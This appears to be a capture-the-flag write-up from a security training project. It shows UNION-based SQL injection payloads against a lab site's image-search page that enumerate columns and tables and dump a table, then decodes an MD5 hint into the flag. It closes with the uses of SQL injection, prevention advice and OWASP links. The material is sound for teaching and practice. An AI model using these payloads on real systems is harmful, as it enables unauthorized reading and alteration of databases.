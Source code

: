 # SQL INJECTION IMAGES

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=searchimg

```diff
# To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns

# To get the images columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> id, url, title, comment

# To see all images's data
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

# Finally "just use this md5 decode lowercase then sha256 to win this flag !"
md5_decrypt('1928e8083cf461a51303633093573c46')
> albatroz
lower('albatroz')
> albatroz
sh256('albatroz')
> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Use
> read sensitive data from the database, \
> modify database data (Insert/Update/Delete), \
> execute administration operations on the database (such as shutdown the DBMS), \
> recover the content of a given file present on the DBMS file system \
> and in some cases issue commands to the operating system

## Prevention
> use of prepared statements (with parameterized queries) \
> use of stored procedures \
> whitelist input validation \
> escaping all user supplied input

## Documentation
- [owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)
- [owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly#readme)